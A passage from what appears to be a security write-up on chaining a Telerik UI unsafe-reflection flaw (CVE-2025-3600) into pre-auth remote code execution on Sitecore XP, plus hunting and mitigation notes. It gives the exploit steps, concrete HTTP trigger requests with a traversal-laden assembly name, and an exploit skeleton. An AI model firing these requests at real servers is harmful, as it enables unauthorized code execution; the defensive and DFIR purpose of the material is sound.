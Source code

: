 ## Example pre‑auth RCE chain (Sitecore XP)

- Step 1 – Pre‑auth: Trigger a type whose static/instance ctor registers an insecure AssemblyResolve handler (e.g., Sitecore’s FolderControlSource in ControlFactory).
- Step 2 – Post‑auth: Obtain write into a resolver-probed directory (e.g., via an auth bypass or weak upload) and plant a malicious DLL.
- Step 3 – Pre‑auth: Use CVE‑2025‑3600 with a non-existent type and a traversal‑laden assembly name to force the resolver to load your planted DLL → code execution as the IIS worker.

Trigger examples

```http
# Load the insecure resolver (no auth on many setups)
GET /-/xaml/Sitecore.Shell.Xaml.WebControl

# Coerce the resolver via Telerik unsafe reflection
GET /Telerik.Web.UI.WebResource.axd?type=iec&dkey=1&prtype=watchTowr.poc,+../../../../../../../../../watchTowr
```

## Validation, hunting and DFIR notes

- Safe lab validation: Fire the DoS payload and watch for app pool recycle/unhandled exception tied to the WSMan finalizer.
- Hunt in telemetry:
  - Requests to /Telerik.Web.UI.WebResource.axd with type=iec and odd prtype values.
  - Failed type loads and AppDomain.AssemblyResolve events.
  - Sudden w3wp.exe crashes/recycles following such requests.

## Mitigation

- Patch to Telerik UI for ASP.NET AJAX 2025.1.416 or later.
- Remove or restrict exposure of Telerik.Web.UI.WebResource.axd where possible (WAF/rewrites).
- Ignore or harden prtype handling server-side (upgrade applies proper checks before instantiation).
- Audit and harden custom AppDomain.AssemblyResolve handlers. Avoid building paths from args.Name without sanitization; prefer strong-named loads or whitelists.
- Constrain upload/write locations and prevent DLL drops into probed directories.
- Monitor for non-existent type load attempts to catch resolver abuse.

## Cheat‑sheet

- Presence check:
  - GET /Telerik.Web.UI.WebResource.axd
  - Look for handler mapping in web.config
- Exploit skeleton:

```http
GET /Telerik.Web.UI.WebResource.axd?type=iec&dkey=1&prtype=<TypeName,+Assembly,+Version=..., +PublicKeyToken=...>
```
